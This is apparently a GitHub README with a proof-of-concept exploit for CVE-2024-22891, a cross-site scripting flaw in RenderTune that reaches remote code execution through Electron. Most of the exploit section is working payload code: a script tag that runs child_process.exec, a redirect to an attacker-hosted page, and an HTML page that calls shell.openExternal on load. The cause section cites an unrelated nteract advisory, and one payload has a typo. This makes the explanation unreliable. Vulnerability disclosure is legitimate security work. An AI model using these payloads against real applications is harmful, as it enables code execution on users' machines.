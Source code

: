# RenderTune RCE

A Proof-Of-Concept for CVE-2024-22891 vulnerability. <br><br>
A cross-site scripting (XSS) vulnerability in RenderTune v1.1.4 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Upload Title parameter.
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
It is a vulnerability that enables RCE through XSS.
There is an XSS capable part of the title, so it is a vulnerability that enables RCE through the syntax of NodeJS through the syntax of XSS.

---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).
* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
###  Case 1) XSS to RCE.
Step 1) Confirm that XSS occurs in the title part
※ At this time, the Upload item will not be registered unless the image is attached
```html
<script>alert('JRURU')</script>
```
![renderTune1](https://github.com/QnA4u/CVE/assets/131337101/4f8e44e1-a80d-4d86-bea3-2e908dc2e35b)


Step 2) Therefore, it is configured to use XSS to execute NodeJS system commands.
```html
<script>require('child_process').exec('C:/Windows/System32/calc.exe')</script>
```
![renderTune2](https://github.com/QnA4u/CVE/assets/131337101/78fbccf5-3deb-4dd4-abfe-88ce0b30e448)

### Case 2) Attacks through an attacker server
※ When you attempt an attack using window.location, you automatically go to the page you set each time you run the app.
```html
<script>window.loaction='http://[attacker IP]/[PoC.html]'</script>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.
``` bash
$ python -m http.server 80
```

* PoC Code
```html
<html>
<head>
  <title>jruru Link</title>
</head>
<body>

  <!-- Run scripts using on-click properties directly to the tag -->
  <a id="jruruLink" href="#" onclick="openExternal()">jruru Link</a>

  <script>
    // Script function definition
    function openExternal() {
      try {
        const { shell } = require('electron');
        shell.openExternal('file:C:/Windows/System32/calc.exe');
      } catch(e) {
        alert('JRURU');
        alert(e);
      }
    }

    // Run script automatically when loading pages
    document.addEventListener('DOMContentLoaded', function() {
      openExternal();
    });
  </script>
</body>
</html>
```
![renderTune3](https://github.com/QnA4u/CVE/assets/131337101/a2d26c2e-4004-45d2-8b63-36702087f597)

---------------------------------------

